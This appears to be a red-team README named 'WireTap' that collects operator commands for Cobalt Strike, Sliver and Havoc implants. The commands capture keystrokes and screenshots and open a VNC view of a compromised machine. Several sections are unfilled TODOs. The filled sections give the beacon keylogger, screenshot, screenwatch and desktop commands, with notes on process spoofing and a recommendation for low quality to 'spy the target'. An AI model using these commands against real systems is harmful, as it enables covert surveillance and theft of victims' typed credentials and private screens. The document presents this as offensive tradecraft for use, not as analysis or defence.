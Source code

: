 # WireTap

## 01 - Keylogging

### 1.1 - Living off the Land

TODO: Fill this info

### 1.3 - Sliver

TODO: Fill this info

### 1.4 - Covenant

TODO: Fill this info

### 1.5 - Cobalt Strike

This will spawn to a child process when using the spawnto beacon command otherwise it'll use the rundll32 as default. You can optionally spoof to another process

`beacon> keylogger <pid> <arch>`

## 02 - Screenshots

### 2.1 - Sliver

`sliver (IMPLANT_NAME) > screenshot`

### 2.2 - Havoc

`Demon » screenshot`

### 2.3 - Cobalt Strike

This will spawn to a child process when using the `spawnto` beacon command otherwise it'll use the `rundll32` as default. You can optionally spoof to another process.

```
beacon> screenshot

beacon> screenshot <pid> <arch> <seconds>

beacon> printscreen

beacon> screenwatch
```

## 03 - VNC Desktop

### 3.1 - Cobalt Strike

Launch a VNC client to spy the target. My recommendation is use `low` quality option to get better surveillance on the target.

`beacon> desktop <pid> <arch> [low | high]`